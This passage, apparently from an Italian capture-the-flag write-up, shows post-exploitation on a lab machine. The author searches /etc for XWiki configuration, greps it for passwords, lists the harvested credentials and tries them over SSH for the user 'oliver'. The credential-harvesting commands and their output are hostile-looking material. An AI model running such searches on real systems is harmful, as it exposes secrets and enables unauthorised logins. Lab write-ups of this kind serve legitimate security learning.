 Si cerca tra i file di configurazione:
```bash
xwiki@editor:/$ find / -regex "/etc/.*xwiki" -type d 2>/dev/null
```
```text
/etc/xwiki
```

Si cercano delle credenziali per **oliver**.
```bash
xwiki@editor:/$ grep -ri pass /etc/xwiki 2>/dev/null | sort -u
```
Di seguito i risultati rilevanti:
```
/etc/xwiki/hibernate.cfg.xml:    <property name="hibernate.connection.password">theEd1t0rTeam99</property>
/etc/xwiki/hibernate.cfg.xml:    <property name="hibernate.connection.password">xwiki</property>
/etc/xwiki/hibernate.cfg.xml.ucf-dist:    <property name="hibernate.connection.password">xwikipassword2025</property>
/etc/xwiki/xwiki.cfg:# xwiki.superadminpassword=system
/etc/xwiki/xwiki.properties:# extension.repositories.privatemavenid.auth.password = thepassword
/etc/xwiki/xwiki.properties:# mail.sender.password = somepassword
```

Le password raccolte sono:
- theEd1t0rTeam99
- xwiki
- xwikipassword2025
- system
- thepassword
- somepassword

Si tenta l'accesso tramite SSH.

![06](./img/06.png)
